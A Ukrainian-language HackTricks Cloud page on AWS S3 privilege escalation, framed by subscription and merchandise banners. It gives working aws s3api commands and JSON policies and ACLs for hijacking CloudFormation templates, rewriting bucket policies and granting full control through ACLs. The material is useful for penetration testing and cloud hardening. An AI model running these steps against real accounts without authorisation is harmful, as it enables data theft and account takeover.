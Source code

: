 # AWS - Підвищення привілеїв в S3

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію в рекламі на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

Атакувальник з цими дозволами для цікавих відра може захопити ресурси та підвищити привілеї.

Наприклад, атакувальник з цими **дозволами для відра cloudformation** під назвою "cf-templates-nohnwfax6a6i-us-east-1" зможе захопити розгортку. Доступ може бути наданий за допомогою наступної політики:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
І викрадення можливе через **невелике вікно часу від моменту завантаження шаблону** до моменту **розгортання шаблону**. Атакувальник може створити **функцію лямбда** у своєму обліковому записі, яка буде **спрацьовувати, коли відправляється сповіщення про віджаття від кошика**, і **викрадати** **вміст** цього **кошика**.

![](<../../../.gitbook/assets/image (18) (1) (1).png>)

Модуль Pacu [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection) може бути використаний для автоматизації цієї атаки.\
Для отримання додаткової інформації перевірте оригінальне дослідження: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

Це дозволи для **отримання та завантаження об'єктів в S3**. Кілька служб всередині AWS (і поза ним) використовують сховище S3 для зберігання **файлів конфігурації**.\
Атакувальник з **доступом на читання** може знайти **чутливу інформацію** в них.\
Атакувальник з **доступом на запис** може **змінити дані для зловживання якоюсь службою та спроби підвищення привілеїв**.\
Ось деякі приклади:

* Якщо екземпляр EC2 зберігає **дані користувача в кошику S3**, атакувальник може змінити їх для **виконання довільного коду всередині екземпляра EC2**.

### `s3:PutBucketPolicy`

Атакувальник, який повинен бути **з того самого облікового запису**, якщо ні, помилка `The specified method is not allowed will trigger`, з цим дозволом зможе надати собі більше дозволів на кошик(и), що дозволить йому читати, записувати, змінювати, видаляти та розкривати кошики.
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

Зловмисник може зловживати цими дозволами, щоб **надати собі більше доступу** до конкретних відра.\
Зверніть увагу, що зловмисник не повинен бути з того ж облікового запису. Більше того, доступ на запис.
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

Зловмисник може скористатися цими дозволами, щоб надати собі більший доступ до конкретних об'єктів у відрах.
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

Атакувальник з цими привілеями може встановлювати Acl для конкретної версії об'єкта
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити **рекламу вашої компанії на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
